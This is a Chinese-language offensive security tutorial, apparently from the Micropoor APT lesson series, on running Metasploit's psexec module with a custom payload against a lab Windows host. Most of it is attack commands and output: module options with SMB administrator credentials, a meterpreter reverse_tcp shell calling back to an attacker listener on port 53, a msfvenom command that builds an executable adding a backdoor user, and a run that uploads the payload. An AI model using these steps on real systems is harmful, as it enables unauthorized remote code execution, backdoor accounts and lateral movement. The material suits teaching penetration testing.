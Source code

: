 # 专注APT攻击与防御
https://micropoor.blogspot.com/

MSF的exploit模块下是支持set payload的，同样在复杂的网络环境下，许多模块也同样支持自定义的payload。可以更好的配合第三方框架，如第十一课中提到的Veil-Evasion等。

以exploit/windows/smb/psexec为demo。

攻击机配置如下：
```bash
msf exploit(windows/smb/psexec) > show options 

Module options (exploit/windows/smb/psexec): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
RHOST 192.168.1.119 yes The target address
RPORT 445 yes The SMB service port (TCP)
SERVICE_DESCRIPTION no Service description to to be used on target fo rpretty listing
SERVICE_DISPLAY_NAME no The service display name
SERVICE_NAME no The service name
SHARE ADMIN\$ yes The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
SMBDomain . no The Windows domain to use for authentication
SMBPass 123456 no The password for the specified username
SMBUser administrator no The username to authenticate as Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 192.168.1.5 yes The listen address (an interface may be specified)
LPORT 53 yes The listen port 

Exploit target: 
Id Name
‐‐ ‐‐‐‐
0 Automatic 
```
![](media/a88d25b5d8817aab5ef240672283dc24.jpg)

需设置一非，常用选项：

```bash
msf exploit(windows/smb/psexec) > set EXE::CUSTOM /var/www/html/bin_tcp_x86_53.exe
EXE::CUSTOM => /var/www/html/bin_tcp_x86_53.exe
```
![](media/adf249249993b5500e984f8c8bc6eba2.jpg)

靶机当前端口如下：
![](media/7e2ed442134c4d03288e48471a79360d.jpg)

攻击机执行：

![](media/0f2ab61af6eba4c35ce5f14a3eadee06.jpg)

靶机端口变化如下：

虽报错，但并不影响执行。
![](media/f052e2fa45e58d72f484f56afb1772d9.jpg)

**注意：**

Psexec创建一个服务后，来运行可执行文件（如Micropoor.exe）。但是将可执行文件作为服务，payload必须接受来自控制管理器的命令，否则将会执行失败。而psexec创建服务后，将随之停止，该payload处于挂起模式。

参考该服务源码：
https://github.com/rapid7/metasploit-framework/blob/master/data/templates/src/pe/exe/service/service.c
payload启动后，将会在过一段时间内退出。并强制终止。

故该参数一般用于adduser。配合adduser_payload。或者配合一次性执行完毕非常连接的payload。如下载。抓明文密码等。不适合需长连接通信的payload。

```bash
root@John:/tmp# msfvenom ‐p windows/adduser PASS=Micropoor$123 USER=Micropoor ‐f exe >adduser.exe
[‐] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[‐] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 279 bytes
Final size of exe file: 73802 bytes 
```

![](media/6c388c67acdf21788d40d364d510e93e.jpg)

**同样可以配合target的改变来解决控制管理器的强制命令接收。**

**攻击机设置：**

```bash
msf exploit(windows/smb/psexec) > show targets 

Exploit targets: 

Id Name
‐‐ ‐‐‐‐
0 Automatic
1 PowerShell
2 Native upload
3 MOF upload
msf exploit(windows/smb/psexec) > set target 2
target => 2
msf exploit(windows/smb/psexec) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] 192.168.1.119:445 ‐ Connecting to the server...
[*] 192.168.1.119:445 ‐ Authenticating to 192.168.1.119:445 as user 'administrator'...
[*] 192.168.1.119:445 ‐ Uploading payload... kKwZpPRs.exe
[*] 192.168.1.119:445 ‐ Using custom payload /var/www/html/bin_tcp_x86\_53.exe, RHOST and RPORT settings will be ignored!
[*] 192.168.1.119:445 ‐ Created kKwZpPRs.exe...
[‐] 192.168.1.119:445 ‐ Unable to remove the service, ERROR_CODE:
[‐] 192.168.1.119:445 ‐ Exploit failed: RubySMB::Error::UnexpectedStatusCode STATUS_PIPE_EMPTY
[*] Exploit completed, but no session was created.
```
![](media/f0440595204a8fb13d4f8dbcf22925ec.jpg)

目标机：
![](media/e5b1a086c8f9b612acde771c1cb82884.jpg)

在执行payload即可。

>   Micropoor
